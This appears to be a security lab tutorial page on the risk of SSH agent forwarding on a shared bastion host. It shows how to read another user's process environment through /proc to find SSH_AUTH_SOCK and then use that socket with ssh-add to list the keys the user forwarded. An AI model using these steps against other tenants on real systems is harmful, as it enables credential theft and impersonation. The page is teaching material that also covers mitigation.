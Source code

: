 ```yaml
---
sidebar_position: 4
title: 3. What info can adjacent SSH tenants access?
description: Learn how to steal credentials from another tenant's SSH agent.
tags:
  - Lab 
---
```


## Threat Context

Recall that this is a jumpbox/bastion-host, so it's reasonable to make an assumption that everyone on here is authenticated (via SSH) to be on the box. However due to differing levels of authorization within an organization/company it's likely that where they can connect to after that will vary a lot based on their privilege levels.

Hence the primary threats[^1] are:
1. Spoofing -> using forwarded credentials from another tenant to access a server as them.
2. Denial of Service (via Tampering) -> modifying their agent credentials so they cannot access downstream hosts.
3. Information Disclosure -> observing any sensitive data in their SSH session that you should not have access to.

## How you can perform the attack on yourself to learn

Once you're connected to the host with your SSH client, in your other SSM console (the one in the browser on console.aws.amazon.com) run the following:
```
# ps -u ec2-user
  PID TTY          TIME CMD
 8973 ?        00:00:00 sshd
 8974 pts/1    00:00:00 bash
```

We can then get that bash process ID (PID) and dump the environment variables for the process:    
`cat /proc/8974/environ`

we are looking for the _SSH_AUTH_SOCK_ environment variable, which will look something like this:    
`SSH_AUTH_SOCK=/tmp/ssh-423TlzrQBq/agent.8973`

This is a [socket file](https://en.wikipedia.org/wiki/Unix_domain_socket) that allows the key sharing between the remote client and the ssh-agent on this server.

So for the users available to us from the SSM console (`ssm-user` or `root`) we don't have any ssh-agent identities:
```
(root)# ssh-add -L
The agent has no identities.
```

However now if we use the environment variable we found for the SSH_AUTH_SOCK we can dump out what the `ec2-user` forwarded to the host:
```
(root)# SSH_AUTH_SOCK=/tmp/ssh-423TlzrQBq/agent.8973 ssh-add -L
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP+Zj68BITqTICXyjdyzLoBlwbNrPoGEVbB7gsJJ93UW secret-example-key
```

:scream: we see the ssh key I had forwarded from my laptop agent that I was going to use to connect to _THE FINANCE DATABASE HOST_ (for example).
This is how any observer on the Bastion could also do the same if they knew how to find and use the same `SSH_AUTH_SOCK` as me.

## But does this actually happen much in the real world?

Yes, yes it does. For example, in 2019 matrix.org had a [security incident](https://matrix.org/blog/2019/05/08/post-mortem-and-remediations-for-apr-11-security-incident) caused directly from their usage of SSH Agent forwarding.

The [modern way to address this](https://goteleport.com/blog/ssh-jump-server/) is to use a newer feature of SSH called ProxyJump, and disallow any TTY access whatsoever. But for the purpose of the exercise we will ignore that feature so we can learn more about SELinux.

[^1]: I was intentionally using terms from the [STRIDE threat-modeling framework](https://en.wikipedia.org/wiki/STRIDE_(security)) here for internal consistency when describing threats.